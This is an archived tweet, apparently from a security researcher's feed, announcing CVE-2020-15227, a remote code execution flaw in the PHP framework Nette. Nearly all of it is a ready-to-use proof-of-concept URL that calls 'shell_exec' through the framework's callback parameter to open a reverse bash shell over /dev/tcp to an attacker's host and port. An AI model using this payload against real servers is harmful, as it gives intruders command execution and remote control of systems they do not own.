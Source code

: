 
# chybeta
**https://twitter.com/chybeta/status/1316416189527068672 _at 2020-10-14, 16:30:52_**
<blockquote>
CVE-2020-15227 PHP framework nette callback RCE

POC: /nette.micro?callback=shell_exec&amp;cmd=bash%20-i%20&gt;&amp;%20/dev/tcp/'+lhost+'/'+lport+'0&gt;&amp;1

https://t.co/M4oEFOYZva https://t.co/TH5Iu9lFDP
</blockquote>

* https://t.zsxq.com/zn2BQZr

<table><tr>
